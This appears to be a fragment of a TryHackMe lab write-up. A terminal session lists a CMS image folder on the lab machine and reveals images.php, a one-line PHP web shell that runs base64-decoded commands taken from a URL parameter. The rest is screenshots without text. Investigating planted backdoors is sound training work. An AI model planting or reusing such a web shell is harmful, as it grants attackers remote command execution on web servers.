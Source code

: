 
```bash
ubuntu@tryhackme:/var/www/html/CMSsite-master/img$ ls
'$user_image'                               IMG_20160917_152307.jpg
 10067.jpg                                  acer-aspire-blue-computer-wallpapers-1024x768.jpg
 10958.jpg                                  call-of-duty-games-wallpapers.jpg
 19946.jpg                                  casino-royale-james-bond-wallpaper.jpg
 22497.jpg                                  cms_admin.JPG
 2347033459561.jpg                          cms_admin_categories.JPG
 24-cast-tv-serie-wallpapers-1024x768.jpg   cms_admin_post.JPG
 24195.jpg                                  cms_admin_restrict.JPG
 25501.jpg                                  cms_admin_users1.JPG
 33070.jpg                                  cms_admin_users2.JPG
 36296.jpg                                  cms_front.JPG
 500.JPG                                    comment.jpg
 505.jpg                                    images.php
 9400.jpg                                   post_img.jpg
'BlackBerry 9000521.JPG'                    post_img2.jpg
'Chelsea-me 20151215_142015.jpg'            vimeo.png
 IMG_20160129_145808.jpg                   ''$'\303\242\342\202\254\302\252''+234 803 426 6336'$'\303\242\342\202\254\302\254'' 20151226_180506.jpg'
 IMG_20160214_152546.jpg                   ''$'\303\242\342\202\254\302\252''+234 810 956 2045'$'\303\242\342\202\254\302\254'' 20151007_200625.jpg'
 IMG_20160725_144420.jpg
ubuntu@tryhackme:/var/www/html/CMSsite-master/img$ cat images.php
<?php system(base64_decode($_GET['query'])); ?>
```


<img width="1207" height="532" alt="image" src="https://github.com/user-attachments/assets/a7b9bbe4-3e32-4691-a4d4-535286f76439" />

<img width="1359" height="171" alt="image" src="https://github.com/user-attachments/assets/eb13ef5f-72cc-43ed-b22e-529438c5f954" />

<br>
<br>

<img width="1906" height="885" alt="image" src="https://github.com/user-attachments/assets/edd1c55c-ea0d-429a-b55e-9e05a4f03945" />

<img width="1897" height="895" alt="image" src="https://github.com/user-attachments/assets/5e8415ac-7c65-44f1-b420-c30f457d92ac" />

<br>
<br>




<img width="429" height="287" alt="image" src="https://github.com/user-attachments/assets/1d31aeea-5858-436d-86af-001cc541978c" />

<img width="1904" height="904" alt="image" src="https://github.com/user-attachments/assets/d64e4339-a23d-4ee3-8809-9240229231ff" />

<img width="1884" height="895" alt="image" src="https://github.com/user-attachments/assets/7217cc70-e1db-4ac3-9dd4-b228d561b760" />

<img width="1892" height="888" alt="image" src="https://github.com/user-attachments/assets/f296761d-6486-41f7-ba95-6d3cce311a5d" />


<img width="1896" height="902" alt="image" src="https://github.com/user-attachments/assets/ad7e3eb1-76c3-4bf9-88ef-ea13a21ac8da" />







